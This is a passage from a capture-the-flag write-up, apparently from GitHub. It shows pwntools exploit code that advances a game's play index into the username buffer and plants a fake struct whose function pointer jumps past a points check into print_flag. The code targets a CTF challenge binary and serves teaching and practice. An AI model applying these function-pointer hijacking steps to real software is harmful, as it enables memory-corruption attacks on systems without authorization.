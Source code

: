 Getting an arbitrary `struct play current_play` is now an implementation problem. We'll start by earning 5 points:

```python
for i in range(5): win_round()
```

Then we'll increment `game_ctx->current_play` to an _appropriate_ value, based on `sizeof(struct play) == 24` and `game_ctx->player_name == game_ctx->array_of_plays+0xd018`:

```python
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
    skip(toskip)
```

We'll follow that up by inserting the desired fake `struct play` inside `player_name`:

```python
choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1) # no idea where the b'a'+10 comes from.
'''struct play { //sizeof 24
    uint32_t id = 1;
    void (* animation_function)(enum handsigns, enum handsigns) = print_flag+0x66;
    enum handsigns handsign = 1;
};'''
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
```

Over here, the fake `play` structure has `animation_function` set to `print_flag+0x66`. The `+0x66` is there to bypass the `POINTS_TO_PRINT_FLAG` check in `print_flag()`.

With `->current_play` and `->player_name` in check, we only need to call `current_play->animation_function` to win.

```c
        // if ascii art enabled, call function ptr
        if(game_ctx->ascii_art_enabled)
        {
            current_play.animation_function(current_play.handsign, handsig_input);
        }
```

To get to this part of the code, we only need to

```python
choose(4) # enable ascii art
choose(2) # start the next round
r.recvuntil('[ ]\b\b')
r.sendline('1') # pick any option
print(r.recvall()) # get flag
```
